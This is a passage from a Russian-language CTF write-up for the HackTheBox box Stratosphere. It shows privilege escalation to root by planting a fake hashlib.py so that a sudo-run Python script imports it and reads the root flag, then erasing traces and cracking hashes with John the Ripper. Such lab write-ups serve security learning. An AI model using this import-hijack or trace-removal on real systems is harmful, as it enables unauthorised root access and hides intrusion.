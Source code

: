 Но в [конце]({{ page.url }}#хеши) райтапа мы все же сломаем пару хешей. Так, разминки ради.

## PrivEsc: richard → root. Способ 2
В начале исходника нельзя не заметить импорт библиотеки `hashlib` для вычисления хеш-значений вводимых строк. Угоним же эту библиотеку?

Для этого нам необходимо узнать порядок резолва путей, по которым будет производиться импорт модулей. Сделать это можно такой командой:
```text
richard@stratosphere:~$ python -c 'import sys; print(sys.path)'
['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
```

Пустые кавычки в начале означают текущий каталог (CWD). То что нам нужно, я считаю!

Создадим фейковую библиотеку `hashlib.py` с нужным нам пейлоадом (можно построить реверс-шелл, или так же получить root-сессию, как и в первом способе, но для простоты я ограничусь просто выводом флага на экран — идея ясна):
```
richard@stratosphere:~$ echo 'import os; os.system("cat /root/root.txt")' > hashlib.py

richard@stratosphere:~$ ls -l *.py
-rw-r--r-- 1 richard richard   43 Sep  4 15:19 hashlib.py
-rwxr-x--- 1 root    richard 1507 Mar 19 15:23 test.py
```

И со спокойной совестью запустим скрипт:
```text
richard@stratosphere:~$ sudo /usr/bin/python ~/test.py
d41d8cd9????????????????????????
Solve: 5af003e100c80923ec04d65933d382cb
^C
```

Чистим следы пребывания в системе and we're done with this box:
```text
richard@stratosphere:~$ rm hashlib.py
richard@stratosphere:~$ rm /dev/shm/input* /dev/shm/output*
```

:triumph:

# Разное
## Хеши
Шутки ради попрошу своего друга Джона решить предлагаемые тестом хеши:
```text
root@kali:~# echo '5af003e100c80923ec04d65933d382cb' > strat.md5
root@kali:~# echo 'd24f6fb449855ff42344feff18ee2819033529ff' > strat.sha1
root@kali:~# echo '91ae5fc9ecbca9d346225063f23d2bd9' > strat.md4
root@kali:~# echo '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943' > strat.blake2b512

root@kali:~# john strat.md5 --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
...
kaybboo!
...

root@kali:~# john strat.sha1 --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1
...
ninjaabisshinobi
...

root@kali:~# john strat.md4 --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD4
```